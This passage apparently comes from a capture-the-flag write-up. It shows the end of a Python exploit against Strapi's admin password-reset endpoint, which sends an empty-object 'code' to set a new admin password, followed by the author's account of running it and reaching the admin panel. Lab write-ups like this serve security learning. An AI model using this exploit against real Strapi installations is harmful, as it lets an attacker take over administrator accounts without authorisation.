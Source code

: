 ```python

	# Set new password
	print("[*] Setting new password")
	exploit={"code":{}, "password":newPassword, "passwordConfirmation":newPassword}
	r=s.post("{}/admin/auth/reset-password".format(strapiUrl), json=exploit)

	# Check if the password has changed
	if "username" in str(r.content):
		print("[+] New password '{}' set for user {}".format(newPassword, userEmail))
	else:
		print("\033[91m[-] Something went wrong\033[0m")
		sys.exit(1)
else:
	print("\033[91m[-] This version is not vulnerable\033[0m")
	sys.exit(1)
```


According to the indication of this exploit we execute the script as follow command, and it should change the user's password.

<p align = "center">
<img src = "/assets/images/img-horizontall/captura18.png">
</p>

Ok so let's check if it's work, and we can see that i have access to the admin account on strapi. And we can see the strapi version and affectively it is the vulnerable version.

<p align = "center">
<img src = "/assets/images/img-horizontall/captura19.png">
</p>
